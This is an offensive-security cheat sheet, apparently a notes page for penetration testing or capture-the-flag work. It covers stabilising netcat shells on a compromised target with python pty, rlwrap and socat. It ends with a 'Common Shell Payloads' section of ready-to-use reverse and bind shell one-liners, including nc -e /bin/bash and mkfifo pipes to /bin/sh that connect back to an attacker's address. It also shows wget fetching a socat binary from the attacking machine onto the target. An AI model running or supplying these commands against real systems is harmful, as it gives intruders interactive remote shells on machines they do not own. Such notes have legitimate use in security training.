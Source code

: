 # Shells

## Netcat Shell Stabilization

### Technique 1: Python

Step 1:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
```

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Step 2:

```bash
export TERM=xterm
```

&#x20;(Gives access to term commands such as clear)

Step 3:

Ctrl + Z and then:

```bash
stty raw -echo; fg
```

This does two things:&#x20;

first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes).&#x20;

It then foregrounds the shell, thus completing the process.

**Note that** if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type `reset` and press enter.

### Technique 2: rlwrap

Set up a listener:

```bash
rlwrap nc -lvnp <port>
```

Background the shell using Ctrl + Z

Then use:

```bash
stty raw -echo; fg
```

### Technique 3: Socat

The third easy way to stabilize a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell.&#x20;

To accomplish this method of stabilization we would first transfer a [socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86\_64/socat?raw=true) (a version of the program compiled to have no dependencies) up to the target machine.&#x20;

A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (`sudo python3 -m http.server 80`), then, on the target machine, using the netcat shell to download the file.&#x20;

On Linux this would be accomplished with curl or wget (`wget <LOCAL-IP>/socat -O /tmp/socat`).



First, open another terminal and run `stty -a`. This will give you a large stream of output. Note down the values for "rows" and columns:

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

Next, in your reverse/bind shell, type in:

`stty rows <number>`

and

`stty cols <number>`

## Common Shell Payloads

`nc -lvnp -e /bin/bash`&#x20;

`nc <LOCAL-IP> <PORT> -e /bin/bash` = this would result in reverse shell on the target

Create a listener for a bind shell (using named pipe (mkfifo)):

```bash
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

Send netcat reverse shell:

```bash
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```
